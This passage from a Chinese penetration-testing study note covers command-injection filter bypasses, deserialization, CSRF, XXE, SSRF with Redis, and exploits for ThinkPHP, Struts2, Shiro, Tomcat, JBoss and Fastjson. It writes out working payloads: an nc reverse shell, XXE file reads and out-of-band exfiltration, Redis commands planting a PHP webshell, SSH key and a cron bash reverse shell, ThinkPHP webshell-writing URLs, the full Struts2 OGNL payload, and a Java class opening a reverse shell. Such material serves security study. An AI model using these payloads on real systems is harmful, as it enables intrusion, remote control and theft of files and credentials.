| ?      | 代表一定有1个任意字符           | /b?n/cat /etc/pass?d          | 查看/etc文目录下符合要求的文件 |
| []     | 代表**一定有1个在括号内**的字符 | /bin/cat /etc/[pwe]ass[aswd]d |                                |
| -      | 代表**在编码顺序内的所有**字符  | [0-9]                         | 0到9之间的所有数字             |
| ^      | 代表**反向选择**                | [^abc]                        | 一定没有一个括号内的字符       |

#### (2)IP转数字，数字转IP

```bash
192.168.12.151 =>  3232238743
反弹shell的使用： 	/???/nc -e /???/b??h 3232238743 1234
```

#### (3)连接符

```bash
#原型：/bincat /etc/passwd
1. 单引号： ''包裹
	/b'i'n/c'a't /e't'c/'p'a's's'w'd
2. 双引号
	c"a"t /"e"t"c"/"p"a"s"s"w"d
3. 反斜杠
	c\a\t /e\t\c/p\a\s\s\w\d
```

#### (4)未初始化的变量

* **未初始化**的变量，直接使用时，变量值为**null**

```bash
echo $a $b $c
#执行whoami的变形
a=w;b=hoa;c=mi;$a$b$c
```

#### (5)反引号执行

* 在Linux下，反引号中间的字符能够被当做命令执行

```bash
#执行whoami命令：
`whoami`
who`sadasdasdfasfas`am`safqwafasfa`i
```

#### (6)其他符号

* **大括号**、**重定向**符号绕过**空格**的过滤

```bash
1. 大括号
    #执行的 cat /etc/passwd命令：
    {cat,/etc/passwd}

    #执行ls -la指令：
    {ls,la}
2. 重定向
	#小于号是输入重定向，就是把后面跟的文件取代键盘作为新的输入设备，大于号是输出重定向
	a. 执行ls
		l<>s
```

#### (7)base64编码

1. 首先echo [命令] | base64

   ```bash
   echo whoami | base64 		#获取base64编码后的命令
   ```

2. 将命令以base64编码的形式表示出来

   ```bash
   echo [编码之后的命令] | base64 -d		#-d指令表示进行解码
   ```

3. 使用反引号执行该字符串

   ```bash
   `echo [编码之后的命令] | base64 -d`
   ```

#### (8)默认字符命令

* echo **${#PATH}** 可以**截取**字符串

  ```bash
  echo ${#PATH5:1}
  	l
  echo ${#PATH5:1}echo ${#PATH2:1}
  	ls
  `echo ${#PATH5:1}${#PATH2:1}`
  	ls
  ${#PATH5:1}${#PATH2:1}
  	ls
  ```

### 3.Windows变形

#### (1)大小写混合

* **双引号**、**^**和**成对的圆括号** 并不会影响命令的执行

  ```cmd
  whoami	=>
  	w"h"o"a"m"i"
  	(((whoami)))
  	w^h^o^a^m^i		#不能是 ^^ ，2个^代表转义
  ```

#### (2)set命令和windows变量绕过

```cmd
set a=whoami
echo a		#输出：whoami
echo %a%	#输出：whoami命令执行结果

set z=ipc
set x=onfig
%z%%x%		#输出：ipconfig的执行结果
```

#### (3)字符串的切割

* %变量名:~x,y% ：变量从第x个元素开始提取，总共取y个字符

```cmd
#  %a%的输出为whoami
%a:~0%		#取出a的值中的所有字符
%a:~0,6%	#取出a的值，从第0个位置开始，取6个值
```

#### (4)逻辑运算符

* **管道符 |** ：可以连接命令，且**只执行后面的命令**

  ```cmd
  whoami | net user
  ```

* **双管道符||**：**只有**前面的命令**失败**，**才**执行后面的命令

  ```
  whoam || net user
  ```

* **&**：前面的命令**不影响**后面命令的执行

  ```
  whoami & net user
  ```

* **&&**：**前面的命令成功才**执行后面的命令

  ```
  whoami && net user
  ```

## 十一、反序列化漏洞

### 1. 序列化概述

#### (1)序列化定义

* 序列化，是将对象的**状态信息**转换为**可以存储或传输的形式**的过程。在序列化期间，对象将其当前状态写入到临时或持久型存储区，以后，可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。简而言之，序列化就是把**一个对象变成可以传输的字符串**，可以以特定的格式**在进程之间跨平台、安全的进行通信**

#### (2)用途

* 方便对象在网络中的**传输和存储**

#### (3)过程

* 序列化：将**对象**转化为**流**，利于存储和传输的格式
* 反序列化：将**流**转化为**对象**

### 2. PHP反序列化漏洞

#### (1)概述

* PHP反序列化漏洞也叫**PHP对象注入**

#### (2)形成原因

* 程序没有对用户输入的反序列化字符串进行检测，导致反序列化过程可以被恶意控制

#### (3)危害

1. 代码、系统命令执行
2. getshell

#### (4)防御

1. **严格过滤用户输入**的unserialize函数的参数
2. 对unserialize后的**变量内容进行检查**，以确定内容没有被污染

#### (4)常见魔法函数

| 魔法函数       | 含义                                          |
| -------------- | --------------------------------------------- |
| __construrct() | 当**对象创建**时被调用                        |
| __destruct()   | 当**对象销毁**时被调用                        |
| __sleep()      | 在对象**被序列化**之前被调用                  |
| __weakup()     | 在**unserialize()**函数执行**反序列化时**调用 |
| __toString()   | 当**对象被当做字符串**时使用                  |

#### (5)实例

* 需配合**其他漏洞**使用，例如代码执行、命令执行等

```php
//代码
<?php
class Test{			//创建一个类
	public $str='ichunqiu';
	function __destruct(){	//通过反序列化，调用A对象，因为PHP魔法函数的原因，会自动执行__destruct()
		@system($this->str);
	}
}
$test = new Test();		
//echo serialize($test);
echo "<pre>";
unserialize($_GET['code']);		//反序列化，将得到的序列化字符串反序列化为对象
?>
    
//payload
    ?code=O:4:"Test":1:{s:3:"str";s:8:"ipconfig";}
	?code=O:4:"Test":1:{s:3:"str";s:6:"whoami";}
```


## 十二、CSRF

### 1. 概述

#### (1). 基础

* 强制终端用户在当前对其进行身份验证后的Web应用程序**执行非本意的操作**，CSRF的着重点在**伪造更改状态的请求**，**而不是盗取数据**，因为攻击者无法查看对伪造请求的响应。

#### (2). 原理

##### a. 原理

* CSRF是一种**欺骗**受害者提交恶意请求的攻击，他**继承了受害者的身份和权限**，代表受害者执行**非本意、恶意**的操作

  

##### b. 关键点

* 对于大多数站点，浏览器请求**自动发送**与站点关联的所有凭据，因此，如果用户当前已对该站点进行了身份验证，则该站点**无法区分**受害者发送的伪造请求和受害者发送的合法请求

#### (3). 满足条件

* 登陆**受信任网站**A，并在**本地生成Cookie**
* 在**不登出A**的情况下，**访问危险网站**B

#### (4). 危害

1. 强制用户**执行状态更改**的请求，例如转移资金、更改其电子邮件地址等
2. 管理员账户，则可能**危及整个Web应用程序**

#### (5). 防御

1. 验证Referer字段
   * 如果Referer是**其他网站**，则有可能是CSRF攻击，考虑拒绝该请求
2. 添加Token验证
   * 在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立拦截器来验证token，如果请求中**没有token或token不正确**，则可能是CSRF攻击
3. 二次验证
   * 在转账等**关键操作**之前提供**当前的用户密码**或**验证码**
4. 用户养成良好习惯

#### (6). 与XSS区别

##### a. 原理上

* XSS是将**恶意代码插入到html页面**中，当用户浏览页面时，插入的恶意代码被执行，从而达到目的
* CSRF是一种**欺骗受害者**提交恶意请求的攻击，代表受害者执行**非本意、恶意**的操作

##### b. 其他角度

1. XSS针对**客户端**，CSRF针对**服务端**
2. XSS是**利用合法用户**获取信息，CSRF是**伪造成合法用户**发起请求
3. CSRF危害性高于XSS，且相比难以防御
4. XSS有局限性，CSRF没有局限性
5. XSS可以达到CSRF的效果，反之不行

### 2. 同源策略

* 同源，即指相同**域名、端口、协议**

#### (1). 概述

1. 同源策略是浏览器的一个**安全功能**，**不同源**的客户端脚本在**没有明确授权**的情况下，不能读写对方资源
2. 同源策略限制了从一个源加载的文档或脚本如何与来自另一个源的资源进行交互
3. 这是一个用于**隔离潜在恶意文件**的重要安全机制

#### (2). 受约束对象

* **DOM**、**Cookie**、第三方插件、**XMLHttpRequest**

#### (3). 不受约束对象

* **重定向、页面中的链接、表单提交**
* 跨域资源的引入是可以的，但是js不能读写加载的内容，如嵌入到页面中的`<script>````<link>``<iframe>`等待src属性的标签

#### (4). 非同源受到的限制

1. Cookie、LocalStorage、IndexDB无法读取
2. DOM无法获得
3. AJAX请求不能发送

### 3. 跨域问题

#### (1). 概念

* 不同源的脚本**不能操作其他源**下面的对象，因此**不同域之间**请求数据的操作，称为跨域

#### (2). 方法

##### a. document.domain跨域

###### ①概述

* 两个页面一级域名相同，**只是二级域名不同**，可以通过设置**document.domain**来共享Cookie

###### ②特点

1. 只能在父域名与子域名之间使用
2. 存在安全问题，当一个站点被攻击后，另一个站点会引起安全漏洞
3. 只使用于Cookie和iframe窗口

```cmd
网页A：http://a.baidu.com/index.html
网页B：http://b.baidu.com/index.html

将document.doamin属性设置为相同，例如document.domain=‘baidu.com’，就能实现两个页面之间的任意通信
```

##### b. JSONP跨域

###### ①说明

* 利用`<script>`的**src不受同源策略约束**来实现跨域获取数据
* **jsonp(JSON with Padding)**是json的一种“使用模式”，可以让网页从别的域名那获取资料，即跨域读取数据。

###### ②存在问题

1. **存在安全问题**，需要网站双方商议基础token的身份验证
2. **只能是GET**
3. 可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题

##### c. CORS跨域

###### ①说明

1. CORS是一个W3C标准，允许浏览器向跨源服务器发送**XMLHttpRequest**请求
2. 利用**JavaScript无法控制HTTP头**的特点，通过目标返回的**HTTP头授权**是否允许跨域访问

##### d. CORS漏洞检测与利用

* CORS(Cross-Origin Resource Sharing)，跨域资源共享，是HTML5的一个新特性，不同域古老的jsonp只能get请求

###### ①检测方式

1. curl

   ```cmd
   curl https://www.baidu.com -H "Origin:https://qq.com" -I
   ```

2. burp抓包，查看返回包

   ```
   tips：Access-Control-Allow-Origin的值，
   值为Null，意味着信任任何区域
   ```


## 十三、XXE

### 1. XML介绍

#### (1). 概述

* XML(The Extensible Markup Language,可扩展标识语言)，最初目的是弥补HTMl的不足，后来逐渐用于**网络数据的转换和描述**
* XML用于**传输数据**，而不是显示数据

#### (2). 与HTML区别

* HTML用于**展示数据**，XML用于**传输数据**

#### (3). 语法结构

* 分为2部分，一部分是**标签的定义**，一部分是**标签的解释**(DTD，Document Type Defination)

  

#### (4). DTD文档

##### a. 概述

1. DTD使数据格式之间**按照相同的标准来传输**
2. DTD是一种XML**约束模式**语言，用来**解释XML文档**

##### b. 类型

* **内部**DTD文档和**外部**DTD文档

##### c. 语法结构

###### ①内部DTD

* ```dtd
  <!DOCTYPE 根元素[定义内容]>
  ```

  

###### ②外部DTD

* 使用**system**关键字

* ```dtd
  <!DOCTYPE 根元素 SYSTEM "DTD文件路径">
  ```

1. 新建一个DTD文档outdtd.dtd

   ```dtd
   <?xml version="1.0"?>
   <!ELEMENT note (to.from,heading,body)>
   <!ELEMENT to (#PCDATA)>
   <!ELEMENT from (#PCDATA)>
   <!ELEMENT head (#PCDATA)>
   <!ELEMENT body (#PCDATA)
   ```

2. 新建一个XML文档outdtd.xml

   ```xml
   <?xml version="1.0"?>
   <! DOCTYPE note SYSTEM "outdtd.dtd">
   <note>
       <to>ichunqiu</to>
       <from>Hello</from>
       <head>safe</head>
       <body>666</body>
   </note>
   ```

###### ③内外结合

* ```dtd
  <!DOCTYPE 根元素 SYSTEM "DTD文件路径" [定义内容]>
  ```

1. 新建一个DTD文档outdtd.dtd

   ```dtd
   <?xml version="1.0" encodeing="UTF-8"?>
   <!ELEMENT from (#PCDATA)>
   <!ELEMENT head (#PCDATA)>
   <!ELEMENT body (#PCDATA)
   ```

2. 新建一个XML文档outdtd.xml

   ```xml
   <?xml version="1.0"?>
   <! DOCTYPE note SYSTEM "outdtd.dtd">[
   <!ELEMENT note (to,from,heading,body)>
   <!ELEMENT to (#PCDATA)>
   ]
   <note>
       <to>ichunqiu</to>
       <from>Hello</from>
       <head>safe</head>
       <body>666</body>
   </note>
   ```

#### (5). XML实体

##### a. 概述

* XML实体，即XML语言的变量，有实体名(变量名)和实体值(变量值)，可以通过`&` `%` `/`引用

##### b.实体类型

* **普通**实体和**参数**实体

  

##### c. 支持的协议


##### d. XML实体引用

### 2. XXE漏洞

#### (1). 概述

* XXE漏洞也叫XML外部实体引入，XXE漏洞发生在应用程序**解析XML输入时**，没有禁止外部实体的加载，导致**可加载恶意外部文件**

#### (2). 产生

#### (3). 危害

#### (4). 防御

#### (5). 利用

##### a. 本地引用任意文件

```xml-dtd
<!--读取Linux系统-->
#payload：
<?xml version="1.0"?>
<!DOCTYPE note[
    <!ENTITY content SYSTEM "file:///etc/passwd">
    ]>
&content;

<!--读取windows系统-->
#payload：
#读取Windows系统的配置文件
<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY content SYSTEM "file:///c:/windows/win.ini">
]>
&content;
```

##### b. 远程引用任意文件

```dtd
<!--读取windows系统-->
#payload：
<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY % test SYSTEM "http://192.168.71.49:80/1.dtd">
%test;
]>
&xxe;

<!--外部文件1.dtd内容-->
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
```

##### c. 远程端口探测

###### ①payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "http://ip:探测端口号/test/">
]>

&xxe;
```

###### ②实例

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "http://ip:192.168.71.59:80/test/">
]>

&test;
```


##### d. RCE

* **服务器配置不当/开发内部应用**导致
* php环境中安装了**expect扩展**

###### ①payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "expect://系统命令">
]>
&test;
```

###### ②实例

#### (6). 回显方式

##### a. 有回显

###### ①方式

1. 在xml内部DTD中，定义一个外部参数实体引入外部dtd，外部参数实体的值是外部dtd的url，
2. 在外部dtd文件中，定义一个外部普通实体实体，外部实体的值是payload
3. 在内部dtd中引用参数实体，在xml中引用外部dtd的外部实体 

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "file:///etc/passwd">
]>
&test;
```

###### ②用途

1. XXE的扩展利用
2. 内网探测机器开放端口
3. 进行内网探测

##### b. 无回显

* 采用数据外带的方式

  ```xml-dtd
  <!--1.dtd文件内容-->
  <!ENTITY % x SYSTEM "php://filter/read-convert.base64-encode/resource=doLogin.php">
  <!ENTITY % y "<!ENTITY &#37; z SYSTEM 'http://192.168.71.57/?data=%x'>">
  
  <!--payload-->
  <?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE abc [<!ENTITY % a SYSTEM "http://192.168.71.57/xxe/2.dtd">
  %a;%y;%z;
  ]>
  
  %x;
  ```

  

## 十四、SSRF

### 1. 概述

#### (1). 概述

* SSRF(Server-side Request Forgery，服务端请求伪造)是一种由**攻击者**构造形成**由服务端发起请求**的安全漏洞，一般情况下，SSRF攻击的**目标是从外网无法访问的内网系统**。正是由于它是**由服务端发起**的，所以他能够请求到**与他相连而与外网隔离**的内部系统

#### (2). 存在位置

1. 分享：通过URL地址分享网页内容
2. 转码服务
3. 在线翻译
4. 图片加载与下载：通过URL地址加载或下载图片
5. 图片、文章收藏功能
6. 未公开的api实现以及其他调用URL的功能
7. 从URL关键字中寻找

#### (3). 危害

1. 端口扫描
2. 内网Web应用指纹识别
3. 攻击内网Web应用
4. 读取本地文件

#### (4). 防御

1. 限制请求的**端口只能为Web端口**，只允许访问HTTP和HTTPS的请求
2. 设置**白名单**，或**限制内网IP**，以防止对内网进行攻击
3. 禁止**30x跳转**
4. 屏蔽返回的详细信息

#### (5). 相关危险函数

* 涉及到**网络访问**，**支持伪协议的网络读取**的函数

1. file_get_content()
   * 把文件**写入字符串**，若为内网url的文件，**会先读出来再写入**
2. curl_exec()
   * 常通过**file**、**dict**、**gopher**协议来渗透
3. fsockopen()
   * 打开一个**网络连接**或**Unix套接字连接**

涉及协议.png)

### 2. 漏洞利用

#### (1). 端口扫描

* 当设置参数URL为内网地址时，会**泄露内网信息**，比如内网的某个服务是否开放

  ```html
  ?url=ip:port
      <!--开放端口-->
      	返回服务信息，或是403报错
      <!--未开放端口-->
      	返回404
  ```


#### (2). 获取正常文件

```
http://192.168.71.15/ssrf3.php?url=http://www.baidu.com/robots.txt
```


#### (3). 读取系统本地文件

* 利用**file协议**可以**任意读取**系统本地文件

  

#### (4). 内网Web应用指纹识别

* 大多数Web应用框架都有一些**独特的文件和目录**，通过这些文件可以**识别出应用的类型**，甚至**详细的版本**，进而作出进一步针对攻击

```cmd
#探测是否安装了phpmyadmin
http://192.168.71.15/ssrf3.php?url=http://localhost/phpmyadmin/README
```

#### (5). 端口探测

* 由于XXE漏洞可以利用**http协议**，故**利用该http请求去探查内网**，进行SSRF攻击
* 可以根据响应时间/长度判断端口是否开放

### 3. Redis+gopher

#### (1). 概述

* Gopher协议是http协议的前身，现在用的**越来越少**
* Gopher协议可以说是SSRF的万金油，利用此协议**可以攻击内网的redis、ftp等**，也可以**发送GET、POST请求**，极大拓宽了SSRF的攻击面

#### (2). 利用条件

* Redis**未授权**或通过**弱口令认证**访问到Redis服务器

#### (3). Redis特点

1. **未授权访问**，在访问redis数据库时，**不需要提供用户名和密码**
2. 具有root权限
3. 可以读写文件
4. 默认端口号为：**6379**

#### (4)方法

##### a. 绝对路径写Webshell

###### ①前提

* 需要知道Web的绝对路径

###### ②构造payload

1. redis命令

   ```
   flushall
   set 1 '<?php eval($_GET["cmd"]); ?>'
   config set dir /var/www/html
   config set dbfilename shell.php
   save
   ```

   

##### b. 写SSH公钥

###### ①前提

* 目标机开启SSH服务

###### ②说明

* 如果.ssh目录存在，则直接写入~/.ssh/authorized_keys，如果不存在，则利用crontab创建该目录

###### ③方法

* 本地生成RSA公钥私钥对，将公钥通过redis写入~/.ssh/authorized_keys，实现SSH免密登录

##### ④构造payload

1. redis命令

   ```
   flushall
   set 1 '生成的RSA公钥私钥对'
   config set dir /root/.ssh/
   config set dbfilename authorized_keys
   save
   ```

##### c. 写crontab计划任务反弹shell

###### ①前提

* **Centos系统**

* crontab定时文件位置

  | 目录                          | 说明                                                         |
  | ----------------------------- | ------------------------------------------------------------ |
  | /etc/crontab                  | 一定存在的文件                                               |
  | /etc/cron.d/*                 | 将任意文件写入到该目录下，效果和crontab相同，利用这个目录可以做到不覆盖任何其他文件的情况下进行反弹shell |
  | /var/spool/cron/root          | centos系统下root用户的cron文件                               |
  | /var/spool/cron/crontabs/root | debian系统下root用户的cron文件                               |

###### ②payload

```bash
flushall
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/[反弹机IP]/[port] 0>&1\n\n'
config set dir /var/spool/cron
config set dbfilename root
save
```

##### d. 主从复制RCE

### 4. 绕过

#### (1). 限制域名

1. 采用http基本身份认证的绕过方式，即使用@绕过，如：http://www.aaa.com@www.bbb.com@www.ccc.com

* 在对@的解析域名中，**不同的处理函数**存在**处理差异**，如：PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com

#### (2). 限制请求ip

1. 短网址绕过
2. 特殊域名
   * xip.io可以指向任意域名，即``127.0.0.1.xip.io =>  127.0.0.1`
3. 进制转换
   * `127.0.0.1 => 0x7f.0.0.1`

#### (3). 限制请求为http

1. 采取302跳转，使用302跳转地址
2. 采取短地址


## 十五、框架漏洞

### 1. ThinkPhp

#### (1). 概述

#### (2). 漏洞总结

##### a. 识别

1. ico图标判断
2. 报错页面信息
3. 错误传参报错
   * 特殊指纹出现logo(p3.1、p3.2版本)
4. body特征
   * body里面有"**十年磨一剑**"或者"**ThinkPHP**"
5. wappalyzer插件

#### (3). 漏洞利用

##### a. 5.0.20RCE漏洞

###### ①漏洞产生

* 版本5中，没有正确处理控制器名，导致在网站**没有开启强制路由**的情况(默认情况)下可以**执行任意方法**，从而导致RCE漏洞

###### ②影响版本

* 5.0.x < ThinkPHP < 5.0.23
* 5.1.x < ThinkPHP < 5.1.31

###### ③手动验证

```php
#验证漏洞
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
#执行系统命令
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
#写入webshell
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php @assert($_REQUEST['cmd']);?>

#验证webshell
shell.php?cmd=phpinfo();
```


###### ④工具验证

##### b. 6.0.12文件包含漏洞

###### ①漏洞产生

* ThinkPHP**开启多语言功能**时，攻击者可以通过**lang参数**和**目录穿越**实现文件包含，当存在**其它扩展模块，如pear扩展**时，攻击者可以进一步利用文件包含实现RCE
* 被包含文件**后缀名一定是php**

###### ②影响版本

* 6.0.1 <= ThinkPHP <= 6.0.16

###### ③手动验证

* 漏洞环境中，pearcmd的路径在：/usr/local/lib/php/pearcmd.php

```php
#写文件
	写在临时路径
		?lang=../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/shell.php
    写在web根目录绝对路径
        ?lang=../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/var/www/html/shell.php
#包含文件
?lang=../../../../../../../../../../tmp/shell
#写webshell
?lang=../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=@eval($_REQUEST['cmd']);?>+/tmp/cmd.php
#包含文件webshell
?lang=../../../../../../../../../../tmp/cmd&cmd=phpinfo();
#连接webshell
```


### 2. Laravel

#### (1). 漏洞原理

* 开启了**Debug模式**，由于Laravel自带的**Ignition组件**对**file_get_contents()和file_put_contents()**函数的不安全使用，攻击者可以通过发起恶意请求，构造**恶意Log文件**等方式**触发Phar反序列化**，最终造成RCE

#### (2). 影响版本

* Laravel <= 8.4.2

#### (3). 漏洞利用

* 通过phar://协议进行反序列化操作

* 使用工具`CVE-2021-3129`

  

### 3. Struts2

#### (1). S2-045漏洞原理

* 在使用**基于Jakarta插件的文件上传**功能时，有可能存在**远程命令执行**，用户可在**上传文件时**修改HTTP请求头中的**Content-Type值**来触发该漏洞，进而执行系统命令

#### (2). 影响版本

* Struts2.3.5 - 2.3.31
* Struts2.5 - 2.5.10

#### (3). 漏洞复现

##### a. 手工

1. 随意上传文件，抓取数据包

2. 修改content-type字段

   ```cmd
   Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"boundary=----WebKitFormBoundaryXx80aU0pu6vrsV3z
   ```

3. 在Content-Type字段中修改命令

##### b. 工具测试

1. 使用工具检测漏洞

   

2. 选择漏洞，执行命令

   

#### (4). 判断Struts2框架

##### a. 常规办法

1. 通过页面回显的错误消息来判断
2. 通过网页`action`**后缀**来判断，有可能不准
3. 判断**/struts/webconsole.html**是否存在进行判断，需要devMode = True

##### b. 其他办法

1. 通过actionErrors，要求是对应的Action需要继承来自ActionSupport类

   * http://www.target.com/?actionErrors=1111

   | 可能情况                                                 |
   | -------------------------------------------------------- |
   | 页面直接出现404 or 500等错误                             |
   | 页面输出了与业务有关的错误消息，或者1111被回显到了页面上 |
   | 页面的内容结构发生了明显的改变                           |
   | 页面发生了重定向                                         |

### 4. Shiro

#### (1). Shiro550反序列化

##### a. 原理

* Apache Shiro框架提供了**记住密码的功能**(RememberMe)，用户登录成功后会生成经过**加密**并**编码的cookie**。在服务端对rememberMe的cookie值，先base64解码，再AES解密，最后在反序列化，这就导致了反序列化RCE漏洞

* payload：
  * 命令 => 序列化 => AES加密 => base64编码 => RememberMe Cookie值

##### b. 影响版本

* Apache Shiro < 1.2.4(该版本往前使用**默认AES秘钥**)

##### c. 漏洞复现

* 使用工具

* 1. 访问漏洞url，登录并抓包

     

  2. 获取key，通过工具爆破

     

  3. 获取到利用链

     

  4. 执行命令

     

  5. getshell

     

     

##### d. 判断Shiro框架

* 返回包中会包含`RememberMe=deleteMe`字段，这种情况大多发生在登录处；如果没有该字段，可以在数据包中的Cookie中添加`rememberMe=deleteMe`字段

#### (2). Shiro721反序列化

##### a. 原理

* 由于Apache Shiro **cookie**中通过**AES-128-CBC模式加密**的**rememberMe字段**存在问题，用户可通过**Padding Oracle Attack**来构造**恶意的**rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行。

##### b. 前提

* 进行攻击前需要**获取一个合法用户的Cookie**

##### c. 流程

1. 登录网站获取合法Cookie
2. 使用rememberMe字段进行Padding Oracle Attack，获取intermediary
3. 利用intermediary构造出恶意的反序列化密文作为Cookie
4. 使用新的Cookie请求网站执行攻击

##### d. 影响版本

* **Apache Shiro <= 1.4.1**

#### (3). 两者差异

1. 相同点
   * 都是生成恶意RememberMe Cookie反序列化执行代码
2. 不同点
   * Shiro550序列化利用**需要知道AES加密的key**，使用这个key直接构造Payload
   * Shiro721序列化是利用**已登录用户的合法RememberMe Cookie值**，通过服务器对填充秘钥的不同响应，从而判断加密值是否被正确填充，构造Payload

### 5. Tomcat

#### (1)任意文件写入漏洞

* **CEV-2017-12615**

##### a. 原理

* 当Tomcat启用了PUT方法(readonly初始化参数由默认值设置为false)，攻击者将有可能通过精心构造的攻击请求数据包上传包含任意代码的JSP文件，JSP文件中的恶意代码将能够被服务器执行，导致服务器上的数据泄露或获取服务器权限

##### b. 漏洞检测

* 通过访问：http://localhost:8080，抓包后发起PUT请求，响应包若为201，即可确认该漏洞

##### c. 漏洞复现

1. 直接利用PUT方法写webshell
2. 访问文件连接webshell

#### (2)任意文件读取漏洞

* **CVE-2020-1938(GhostCat)**

##### a. 原理

* 由于Tomcat在**处理AJP请求**时，**未对请求做任何验证**，攻击者可以通过Tomcat AJP Connector读取或包含Tomcat上所有webapp目录下的任意文件，导致产生任意文件读取漏洞

##### b. 漏洞检测

* 通过**工具扫描开放8009端口**即存在CVE-2020-1938幽灵猫漏洞

#### (3)远程部署漏洞

##### a. 原理

* 这是JSP/PHP网站远程部署的一个工具，管理员只需要远程上传一个**WAR格式的文件**，便可以发布到网站，导致**远程部署恶意文件**

##### b. 检测

* 通过访问http://loaclhost:8080/manager管理地址，尝试弱口令或默认口令，若能登录成功，则存在该漏洞

##### c. 漏洞复现

1. 本地准备jsp的webshell，通过弱口令进入后台

   

2. 利用压缩软件或jar压缩成war后缀

   ```
   jar -cvf shell.war shell.jsp
   ```

3. 上传war包部署到服务器

   

4. 访问webshell成功getshell

   


### 6. JBoss

#### (1). 5.x/6.x反序列化漏洞

* CVE-2017-12149

##### a. 原理

* 该漏洞为**Java反序列化错误类型**，存在于JBoss的**HttpInvoker组件中的ReadOnlyAccessFilter过滤器中**，该过滤器没有进行**任何安全检查**的情况下，尝试将来自客户端的数据流进行反序列化，从而导致了漏洞

#### (2). 远程部署漏洞

##### a. 原理

* 这是JSP/PHP网站远程部署的一个工具，管理员只需要远程上传一个**WAR格式的文件**，便可以发布到网站，导致**远程部署恶意文件**

##### b. 漏洞检测

* 使用工具 

##### c. 漏洞复现

1. 访问JBoss首页，http://localhost:8080/，并通过弱密码进入后台(admin/vulhub)

   

2. 上传war包部署到服务器

   

3. 访问webshell成功getshell

   


### 7. WebLogic

#### (1)基本信息

1. 常用端口：**7001**
2. 后台登录地址：http://localhost:7001/console

#### (2)控制台部署漏洞

* 默认密码：weblogic/Oracle@123

##### a. 漏洞复现

#### (3)RCE漏洞

* CVE-2023-21839

##### a. 原理

* 可在**未经身份验证**的情况下，通过**T3、IIOP协议远程访问**并破坏易受攻击的WebLogic Server，陈工利用该漏洞则可能导致未授权访问和敏感信息泄露

##### b. 漏洞复现


### 8. Fastjson反序列化

#### (1). 原理

* Fastjson在解析json的过程中，支持使用**autoType**来**实例化**某一个具体的类，并调用该类的**set/get方法**来访问属性。

#### (2). 利用流程

1. 开启HTTP服务器，并将恶意类放在目录下
2. 开启恶意RMI服务器
3. 攻击者控制url参数为上一步开启的恶意RMI服务器地址
4. 恶意RMI服务器返回ReferenceWrapper类
5. 目标(JNDI_Client)执行lookup操作的时候，

#### (3). 利用总结

1. 基于RMI、LDAP
2. RMI(Remote Method Invoke，远程方法调用)
3. JNDI指一个接口，该接口下会有多种目录系统服务的实现，通过名称等去找到相关的对象并下载实现
4. LDAP指轻量级目录服务协议

#### (4). 限制条件

##### a. RMI

* jdk< 6u132、7u131、8u121

##### b. LADP

* jdk < 11.0.1、8u191、7u201、6u211
* 8u191中，关闭了JNDI远程类加载

#### (5). 漏洞复现

1. 拉取docker并成功部署

2. 编写恶意类并编译

   ```java
   // javac TouchFile.java
   import java.lang.Runtime;
   import java.lang.Process
    public class fastjsonshell {
        static {
                try {
                    Runtime rt = Runtime.getRuntime();
                    String[] commands = {"/bin/bash","-c", "bash -i >& /dev/tcp/192.168.41.54/8888 0>&1"};
                    Process pc = rt.exec(commands);
                    pc.waitFor();
                } catch (Exception e) {
                    // do nothing
                }
        }
   }
   
   //编译代码
   javac fastjsonshell.java
   ```

   

3. 拉取工具并使用maven打包

   ```
   git clone https://github.com/mbechler/marshalsec.git
   ```

   

   

4. 在攻击机上开启web服务器监听

   ```
   python -m http.server 4444
   ```

   

5. 使用工具开启RMI服务器并监听

   ```
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.167.41.54:9090/#fastjsonshell" 9999
   ```

   

6. 开启反弹Shell端口监听

   ```
   nc -lvvp 8888
   ```

   

7. 抓包，添加payload

   

8. 成功反弹

### 9. Spring Data Set RCE

#### (1). 影响版本

* Spring Data Rest version < 2.5.12,2.6.7,3.0 RC3
* Spring Boot version < 2.0.0M4
* Spring Boot release trains < Kay-RC3

#### (2). 漏洞复现

1. docker部署

2. 检测是否存在漏洞

   

